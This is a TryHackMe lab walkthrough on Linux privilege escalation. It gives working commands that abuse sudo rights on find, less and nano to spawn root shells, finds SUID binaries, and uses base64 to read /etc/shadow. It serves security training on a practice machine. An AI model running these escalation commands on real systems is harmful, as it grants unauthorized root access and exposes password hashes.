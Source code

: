 # HackerFrogs AfterSchool Network Hacking Session 9
## Session Topic: Privilege Escalation Pt 1 /w TryHackMe
# Challenge 1: TryHackMe Linux Privilege Escalation
## TryHackMe Link
https://tryhackme.com/room/linprivesc
### YouTube Walkthrough Link
https://youtube.com/live/Kl4uF2txMs4
### Method of Solve
* Step 1: Click on the Task 6 header in the TryHackMe page, then click on the green "Start Machine" button
* Step 3: wait 2 minutes for the machine to finish loading
## Part 1: Privilege Escalation via Sudo Commands
We will use the sudo permissions this user has with the `find`, `less` and `nano` commands
* Step 1: In the terminal use the following command to see our user's `sudo` permissions
```
sudo -l
```
This tells us that our user can use the `sudo` command with the `find`, `less` and `nano` commands
* Step 2: Use the following `find` command with `sudo` to gain `root` level shell access
```
sudo find . -exec /bin/bash \; -quit
```
* Step 3: Confirm that we are now the `root` user with the `whoami` command, then `exit` the root shell
```
whoami
exit
```
* Step 4: Use the following `sudo` command with the `less` command to get `root` level shell access
```
sudo less /etc/profile
```
While inside of the less program, we can open a shell with the following command
```
!/bin/bash
```
* Step 5: Use the following commands to confirm our `root` access, then `exit` the shell
```
whoami
exit
q
```
* Step 6: Use the following `sudo` command with the `nano` command to get `root` level shell access
```
sudo nano
```
Now use the `ctrl+r`, then `ctrl+x` shortcuts to access the console, then use this command
```
reset; bash 1>&0 2>&0
```
* Step 7: Use the following commands to confirm our `root` access, then `exit` the shell
```
whoami
exit
```
## Part 2: Privilege Escalation via SUID Binaries
In this section, we'll be doing privilege escalation attacks via the 
* Step 1: In the bottom of the terminal, select `terminate the machine`
* Step 2: Go to Task 7 in the TryHackMe webpage and click the `Start Machine` button
* Step 3: After the terminal finishes initializing, use the following command to find out which SUID binaries exist on the system:
```
find / -perm -4000 2>/dev/null
```
One unusual SUID binary in this list is `base64`
* Step 4: Use the following command to read a restricted file with `base64`
```
base64 /etc/shadow | base64 -d
```
